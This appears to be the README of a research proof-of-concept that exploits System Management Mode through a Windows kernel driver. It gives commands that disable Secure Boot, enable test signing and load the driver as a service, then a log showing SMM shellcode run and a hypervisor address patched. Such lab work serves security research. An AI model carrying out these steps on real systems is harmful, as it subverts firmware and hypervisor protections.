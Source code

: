 ![Demo.png](Demo.png)

### Test Instructions

1. Open the demo.sln in Visual Studio 2019
2. Build the solution for Debug or Release build
3. Copy the compiled demo.sys into the target system (say, C:\users\user\desktop\demo.sys)

On the target system,
1. Disable secure boot from BIOS, and reboot
2. Enable the test signing mode, and reboot
    ```
    > bcdedit /set testsigning on
    ```
3. Create the service to load the demo.sys
    ```
    > sc create demo type= kernel binPath= C:\users\user\desktop\demo.sys
    ```
4. Start [DebugView](https://docs.microsoft.com/en-us/sysinternals/downloads/debugview) and enable "Capture Kernel" from the "Capture" menu.
5. Start the demo
    ```
    > sc start demo
    ```
6. If successful, DebugView will show values of SMM related MSRs.
    ```
    [+] ReportSmramRange: TSEG implied SMRAM: 0x88400000 - 0x88800000
    [-] ReportSmramRange: Exception occurred while accessing SMRR MSR : c0000096
    [+] FindSystemManagementServiceTable: SMM core found at 0x87f1b390 in RT Code
    [+] FindSystemManagementServiceTable: SMST found at 0x887fa710 in SMRAM
    [+] ExploitSmm: Patched SMST->SmmLocateProtocol in SMRAM
    [+] ExploitSmm: Placed SMM shell code
    [+] ExploitSmm: Triggered SMM exploit
    [+] DumpSmmExploitOuput: IA32_SMBASE             = 0x887cd000
    [+] DumpSmmExploitOuput: MSR_SMM_FEATURE_CONTROL = 0x1
    [+] DumpSmmExploitOuput: MSR_SMM_MCA_CAP         = 0xc00000000000000
    [+] DumpSmmExploitOuput: EPT pointer             = 0x10a72001e
    [+] DumpSmmExploitOuput: Patched Hv address      = 0x1004382f0
    [+] ExploitSmm: Successfully executed shell code in SMM. Failing DriverEntry to unload itself
    DriverEntry failed 0xc0000120 for driver \REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\demo